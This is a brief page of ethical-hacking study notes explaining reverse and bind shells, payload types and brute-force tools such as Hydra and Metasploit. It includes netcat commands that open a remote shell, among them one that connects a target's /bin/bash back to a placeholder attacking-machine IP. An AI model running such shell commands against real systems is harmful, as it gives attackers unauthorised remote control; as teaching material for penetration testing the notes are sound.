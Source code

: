 # Exploitation (Basics)

## Shells

### Reverse shell

![image](https://user-images.githubusercontent.com/96747355/175835538-b00ec472-e4b3-4688-b062-25d37837b8b1.png)  
Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
- The target connects back to us
- Example 
  - in our attacking machine we type `nc -nlvp 4444` (4444 is the port)
  - in our target we connect be. For instance in case of a linux based machine we can do `netcat ATTACKING-MACHINE-IP 4444 -e /bin/bash`

### Bind shell

![image](https://user-images.githubusercontent.com/96747355/175835567-7bb7a51d-7761-4cc8-983a-cc7087dacaac.png)
Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
- We connect to the target
- Example
  - in our target we can do `nc -nlvp 4444 -e /bin/bash`
  - in our attacking machine we can do `nc TARGET-IP 4444`

## Payloads

![image](https://user-images.githubusercontent.com/96747355/175836279-e0f0e004-c75a-4d8e-b4de-9680e1b5306a.png)  
Source:[TCM Academy](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)
- If one type of payload does not work we can try the other one

## Bruteforce attacks

- Check out how to use hydra [here](/Tools/passwords-tools.md#hydra)
- We can also use metasploit that has multiple modules for bruteforce attacks

## Resources

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}Hacking Tutorials{% endembed %}
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} Practical Ethical Hacking - TCM Security {% endembed %}
